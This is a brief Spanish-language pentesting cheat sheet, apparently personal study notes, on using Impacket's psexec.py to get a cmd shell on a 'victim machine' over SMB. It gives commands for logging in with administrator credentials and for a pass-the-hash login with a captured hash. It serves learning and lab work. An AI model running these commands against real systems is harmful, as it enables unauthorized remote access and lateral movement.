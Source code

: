 # RPC

Tags: #RPC #PsExec #SMB

Para poder utilizar esta tool, debemos de tener usuario y passwd validas.  

```python
❯ locate psexec            # Buscamos la tool en nuestra maquina de atacante '/usr/share/doc/python3-impacket/examples/psexec.py'

❯ psexec.py administrator@IP cmd.exe        # Para ingresar al SMB 
	# user = Administrator
	# IP = Direccion de la maquina victima 
	# cmd = Que nos ejecute una consola cmd al momento de ingresar
```

```bash
❯ psexec.py WORKGROUP/Administrator@<IP> -hashes <'HASH'>       # Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 
```
